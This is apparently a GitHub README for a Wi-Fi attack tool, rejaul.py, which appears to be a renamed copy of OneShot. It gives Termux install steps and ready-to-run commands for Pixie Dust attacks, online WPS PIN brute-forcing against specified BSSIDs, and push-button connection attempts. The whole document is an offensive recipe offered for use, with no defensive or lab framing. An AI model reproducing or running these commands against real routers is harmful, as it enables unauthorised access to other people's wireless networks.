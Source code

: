 <!--- mark down --->
---
# wifi hack tool all run to rejaul
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

git clone https://github.com/princeicon2712/rejaul2712.git

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

``` Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

``` wps router push button:- sudo python oneshot.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.
